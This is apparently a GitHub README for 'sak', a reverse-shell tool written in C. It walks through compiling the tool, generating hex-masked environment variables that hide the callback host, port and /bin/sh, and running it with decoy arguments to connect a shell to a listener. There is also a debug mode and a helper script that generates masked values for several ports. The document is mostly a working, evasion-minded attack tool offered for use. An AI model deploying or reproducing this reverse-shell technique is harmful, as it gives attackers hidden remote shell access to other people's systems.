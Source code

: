 # sak

*A reverse shell "Swiss Army Knife"*

## Demo

![sak-demo](https://user-images.githubusercontent.com/26688050/202610772-ff4b6b58-4b4e-48b9-b85d-496d257e47fc.gif)


## Compile Source

Clone this repo and compile with `gcc`
  - *you can change values defined in `sak.c` for custom env vars*

```bash
gcc sak.c -o sak
```

## Generate Environment

The `SAKTST` env var is a "toggle" to help generate masked values

Set `SAKTST=123` before running with args `./sak [ip] [port] [mask] [exec]`

```bash
SAKTST=123 ./sak 127.0.0.1 1337 hashmaskhere /bin/sh
# --------------------------------
# ENV: 127.0.0.1:1337
# --------------------------------
# SAKHSH=hashmaskhere
# SAKHST=595344465D4F434559
# SAKPRT=5952405F
# SAKEXC=47031A0642121B
```

Use the output as env vars for calling `./sak` again
  - *without `SAKTST=123`, cli args to `sak` are ignored*

## Connect Target

Either `export` all variables before, or prefix command to connect

```bash
export SAKHSH=hashmaskhere
export SAKHST=595344465D4F434559
export SAKPRT=5952405F
export SAKEXC=47031A0642121B
./sak --anthing goes=here
```

**OR ONE LINER**

```bash
SAKHSH=hashmaskhere SAKHST=595344465D4F434559 SAKPRT=5952405F SAKEXC=47031A0642121B ./sak --anthing goes=here
```

### Debug Mode

The `SAKDBG` env var is a toggle to display unmasked values on connecting

Set `SAKDBG=69` before running `./sak`

```bash
export SAKHSH=hashmaskhere
export SAKHST=595344465D4F434559
export SAKPRT=5952405F
export SAKEXC=47031A0642121B
export SAKDBG=69 # Enable debug output

./sak --fake-args

# CONN: 127.0.0.1:1337 ...
# HOST: [595344465D4F434559] => 127.0.0.1
# PORT: [5952405F] => 1337
# EXEC: [47031A0642121B] => /bin/sh

```

## Helper Script

Provided auto-hash generator script

```bash
# Set target ip
export SAKIP=127.0.0.1
# Generate values for given port with random hash
./gen.sh 1337
# Also works with multiple ports
./gen.sh 1337 4444 9999
```

## Error Handloling

Missing env/hash

```bash
./sak
# Epic fail
```

Invalid hash/port values

```bash
SAKHSH=Wr0nG SAKHST=595344465D4F434559 SAKPRT=5952405F SAKEXC=47031A0642121B ./sak --anthing goes=here

# Out of range
```
